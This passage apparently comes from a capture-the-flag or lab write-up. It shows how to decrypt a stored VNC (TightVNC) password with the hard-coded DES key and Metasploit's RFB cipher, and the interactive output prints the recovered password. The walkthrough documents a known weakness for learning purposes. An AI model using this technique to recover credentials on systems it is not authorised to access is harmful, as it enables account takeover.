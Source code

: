 If we do some research, we can find a [repository](https://github.com/frizb/PasswordDecrypts) about decrypting VNC passwords. VNC used a hard coded DES key in order to encrypt credentials among different products including TightVNC. Using Metasploit, we can easily decrypt the password.

```bash
fixedkey = "\\x17\\x52\\x6b\\x06\\x23\\x4e\\x58\\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey
```

```bash
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\\x17\\x52\\x6b\\x06\\x23\\x4e\\x58\\x07"
 => "\\u0017Rk\\u0006#NX\\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\\x00"
>> 
```